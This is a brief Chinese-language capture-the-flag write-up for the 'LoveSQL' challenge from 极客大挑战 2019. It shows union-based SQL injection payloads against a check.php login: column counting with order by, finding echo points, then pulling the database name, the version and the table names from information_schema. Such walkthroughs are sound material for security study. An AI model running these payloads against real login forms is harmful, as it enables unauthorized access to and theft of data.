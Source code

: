 ![alt text](./img/lovesql.jpg)

简单的sql注入，没什么好说的，用户名就是admin

![alt text](img/lovesql注入.jpg)

但是这并不是flag，具体解题思路如下：

[[极客大挑战 2019]LoveSQL 1-CSDN博客](https://blog.csdn.net/satasun/article/details/106246493)

username=admin' order by 4%23&password=1通过盲注可知没有第四列，即只有三列

```
/check.php?username=1' union select 1,2,3%23&password=1
```

通过下面的union查询测试回显点位，得到可进行操作的点位为2和3，因此，通过下面的语句查询数据库和版本：

```
/check.php?username=1' union select 1,database(),version()%23&password=1
```

通过这个语句获取当前所在的数据库中的表有哪些：

```
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```
